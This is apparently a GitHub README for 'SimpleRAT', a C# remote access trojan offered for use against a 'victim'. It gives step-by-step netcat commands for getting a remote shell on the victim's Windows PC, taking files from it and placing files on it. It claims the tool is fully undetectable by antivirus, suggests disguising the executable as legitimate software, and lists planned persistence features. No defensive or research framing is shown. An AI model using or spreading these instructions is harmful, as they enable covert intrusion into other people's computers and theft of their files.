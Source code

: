 # SimpleRAT

Self-contained RAT/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Developed for Windows, Fully compatible with Netcat (tested with windows version). 
NO additional server setups for file downloads or uploads
NO additional dll's or configuration files 
Only one .exe and netcat on your side.

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wish and should be merged into exe after that by using provided tool), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing:
RAT upload file -p <path/to/file.exe>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe

4. Send file through netcat on main port of your RAT

Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![rat-upload](https://user-images.githubusercontent.com/53906830/110226904-37029180-7ef3-11eb-897b-8c7db2e9a581.png)

Currently RAT is FUD as it is small and simple, without any specific features.

## Downsides
1. High .exe application size (35 MB) 
   From one side such size is bad, from other side you could mask program with such size as other legitimate one :)
2. High memory usage

![rat-memory](https://user-images.githubusercontent.com/53906830/110226932-73ce8880-7ef3-11eb-9f0e-b455832e95b4.png)

Both problems are because RAT is self-contained application with builded-in .NET runtime.

### Features To Be Done: 

1. Self startup;
2. Automatic ports opening required for communication;
